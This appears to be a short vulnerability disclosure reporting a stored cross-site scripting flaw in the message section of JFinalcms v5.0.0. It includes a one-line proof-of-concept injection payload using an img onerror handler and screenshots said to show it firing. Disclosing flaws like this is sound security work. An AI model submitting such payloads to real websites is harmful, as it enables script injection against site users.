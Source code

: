 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

There is a storage type XSS in the message section

![1702990935921](https://github.com/Dempsey-l/cms/assets/76834303/e64eb044-a300-4473-a027-f4b9016f32f5)

poc:

```
"><img src=1 onerror=alert(1)>
```

![1702991034491](https://github.com/Dempsey-l/cms/assets/76834303/e3181119-690e-48f1-802f-78cd4f5db2dd)

successed

![1702991082661](https://github.com/Dempsey-l/cms/assets/76834303/fb5cd2f9-65f6-4ee7-ab6d-b9530cbe899a)
